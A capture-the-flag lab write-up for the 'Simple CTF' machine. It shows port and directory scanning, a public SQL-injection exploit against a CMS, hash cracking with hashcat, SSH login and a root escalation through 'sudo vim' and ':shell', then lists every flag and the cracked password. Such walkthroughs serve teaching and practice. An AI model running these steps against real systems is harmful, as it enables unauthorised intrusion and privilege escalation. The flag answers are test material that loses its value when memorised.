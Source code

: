 # Simple CTF

> Lorenzo De Simone | 19.05.2023

----------------------------------------

- [Simple CTF](#simple-ctf)
  - [Hosts](#hosts)
  - [Enumeration](#enumeration)
    - [nmap](#nmap)
    - [Directory Busting](#directory-busting)
  - [Exploitation](#exploitation)
    - [Accessing the System](#accessing-the-system)
    - [Privilege Escalation](#privilege-escalation)
  - [Flags](#flags)

## Hosts

```bash
export IP=10.10.93.22
``` 

## Enumeration

### nmap

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.93.22
sudo nmap -p- -oN nmap/full 10.10.93.22
sudo nmap -p 1000 10.10.93.22 
``` 

> Port 21 is open = ftp server,  anonymous login enabled 
> Port 80 is open = http webserver
> Port 2222 is open = ssh 

### Directory Busting

```bash
gobuster dir -u http://10.10.93.22/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
``` 

> Found directory /simple
> It appears to be a CMS system, vulnerable to SQLi Attacks

## Exploitation

### Accessing the System

```bash
python 46635.py -u http://10.10.93.22/simple --crack 10k-most-common.txt
``` 

> Cracking with the exploit failed, but we got the hash and the salt for mitch's password.

```
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
``` 

```bash
hashcat -m 20 -a 0 crack.txt 10k-most-common.txt
```

> Haschat was able to crack the password
> Logged in as the mitch user using ssh (tcp/2222)
> Found the user flag in ```/home/mitch```

### Privilege Escalation

```bash
$ sudo -l      
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
``` 

> Mitch can run the vim command as sudo, this can probably be abused in order to privesc

```bash
$ sudo vim
:shell
```

> Starting vim as sudo and the using the ```:shell``` we have a root shell. 
> Found the root flag in ```/root```

## Flags 

1. How many services are running under port 1000?
> 2

2. What is running on the higher port?
> ssh

3. What's the CVE you're using against the application?
> CVE-2019-9053

3. To what kind of vulnerability is the application vulnerable?
> SQLi

4. What's the password?
> secret

5. Where can you login with the details obtained
> ssh

6. What's the user flag?
> G00d j0b, keep up!

7. Is there any other user in the home directory? What's its name?
> sunbath

8. What can you leverage to spawn a privileged shell?
> vim

9. What's the root flag?
> W3ll d0n3. You made it!